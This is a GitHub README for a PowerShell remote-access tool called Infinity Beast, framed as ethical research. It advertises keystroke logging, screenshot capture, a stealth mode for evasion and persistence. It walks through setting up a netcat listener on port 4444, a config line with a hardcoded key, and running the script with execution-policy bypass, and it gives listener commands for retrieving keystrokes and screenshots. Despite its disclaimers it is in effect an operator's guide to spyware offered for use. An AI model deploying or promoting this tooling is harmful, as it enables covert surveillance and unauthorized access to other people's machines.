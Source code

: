 # 🔒 Infinity Beast: Ethical Cybersecurity Research Tool

![Infinity Beast](https://i.ibb.co/dsYhDVwY/logo.jpg) <!-- Placeholder for a logo -->

Infinity Beast is an ethical cybersecurity research tool designed to demonstrate remote system interaction techniques for **penetration testing, ethical hacking, and security analysis**. It is intended for educational use by **ethical hackers, cybersecurity students, and researchers** to understand remote access mechanisms in a controlled and legal environment.

🚨 **Disclaimer**: This tool is for legal and ethical use only. Unauthorized use on systems without explicit permission is illegal and strictly prohibited.

---

## 🛠 Features
- **Remote System Interaction**: Learn how remote administration works in security testing.
- **Keystroke Logging (Forensic Analysis)**: Demonstrates keyboard event tracking.
- **Screenshot Capture (Security Audits)**: Enables visual system monitoring.
- **Stealth Mode (Research on Evasion Techniques)**: Helps understand evasion tactics.
- **Encrypted Communication**: Implements AES-based encrypted data exchange.
- **Persistence (Defense Analysis)**: Simulates real-world persistence mechanisms.
- **Configurable Server**: Fetches dynamic settings from a hosted configuration file.

---

## ⚙️ Prerequisites

Before using Infinity Beast for ethical research, ensure the following:
- A **test machine** for execution (e.g., a Virtual Machine in a sandboxed environment).
- **Netcat or a similar listener tool** for capturing data streams.
- **Legal authorization** to conduct security research on the target system.

---

## 🚀 Installation & Setup

### Step 1: Clone the Repository
```sh
git clone https://github.com/RSRSECURITY/Infinity-Beast.git
cd Infinity-Beast
```

### Step 2: Verify the Configuration File
Check the `config.txt` file for the correct settings:
```
[SERVER_IP]:4444::SecureKey123!
```

### Step 3: Install Netcat (Listener)
#### **For Linux/macOS**
```sh
sudo apt update && sudo apt install netcat -y
nc -lvp 4444
```

#### **For Windows**
1. Download Netcat from [JonCraton’s Netcat Page](https://joncraton.org/files/nc111nt.zip).
2. Extract the ZIP file to `C:\Netcat`.
3. Open `cmd` and navigate to the folder:
   ```sh
   cd C:\Netcat
   nc -lvp 4444
   ```

### Step 4: Run the Research Script
Ensure you have permission before running the script on a test system:
```sh
powershell -ExecutionPolicy Bypass -File infinity_beast.ps1
```

---

## 🎮 Usage Guide

Once connected, execute commands from the listener:

| **Command**       | **Description**                               |
|-------------------|---------------------------------------------|
| `keylog`         | Retrieves captured keystrokes.               |
| `screenshot`     | Captures and sends a Base64-encoded image.  |
| `stealth`        | Enables stealth mode (research purposes).    |
| `exit`           | Terminates the session.                      |

To **decode screenshots**, use a Base64 converter like:
- [Base64 Image Converter](https://www.base64-image.de/)

---

## 🔍 Ethical Considerations

- **Use only in environments where you have explicit authorization.**
- **Do not deploy on production systems without consent.**
- **Follow ethical hacking guidelines and legal frameworks.**
- **Always notify system owners and seek approval before conducting tests.**

For professional penetration testing, consider industry-standard tools such as:
- [Metasploit Framework](https://www.metasploit.com/)
- [Empire Project](https://github.com/EmpireProject)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)

---

## 🛡️ Troubleshooting

**1️⃣ No Connection to the Server**
- Ensure Netcat is listening (`nc -lvp 4444`).
- Check firewall settings (allow port `4444`).
- Verify the `config.txt` file is correctly formatted.

**2️⃣ Script Not Executing**
- Try running PowerShell as Administrator.
- Check if the Execution Policy allows scripts:
  ```sh
  Set-ExecutionPolicy Bypass -Scope Process -Force
  ```

**3️⃣ Decryption Errors**
- Ensure encryption keys match in both the script and `config.txt`.

---

## 📜 Legal Disclaimer
This tool is provided **strictly for educational and ethical cybersecurity research**. The developers are not responsible for misuse. Unauthorized access to computer systems without explicit permission is illegal under laws such as:

- **Computer Fraud and Abuse Act (CFAA) - US**
- **Cybercrime Act - UK**
- **General Data Protection Regulation (GDPR) - EU**
- **IT Act - India**

Always use responsibly.

---

## 🤝 Contributing
Want to improve Infinity Beast for ethical security research?
1. Fork the repository.
2. Create a new branch (`feature-improvement`).
3. Submit a Pull Request!

---

## 🔗 Keywords for SEO
- Ethical hacking tool
- PowerShell remote access for security research
- Keylogger cybersecurity research
- Screenshot tool for penetration testing
- Cybersecurity backdoor testing
- Remote administration PowerShell script
- Ethical penetration testing
- Cybersecurity learning tools

---

## 📢 Stay Updated!
Follow us for future updates on **ethical hacking research** and **cybersecurity tools**:
- 🌐 **Website**: [Coming Soon]
- 🐦 **Twitter**: [@RSRSECURITY](https://twitter.com/RSRSECURITY)
- 💬 **Join the Discussion**: [GitHub Issues](https://github.com/RSRSECURITY/Infinity-Beast/issues)

---

🚀 **Happy Hacking! Stay Legal, Stay Ethical!** 🔐

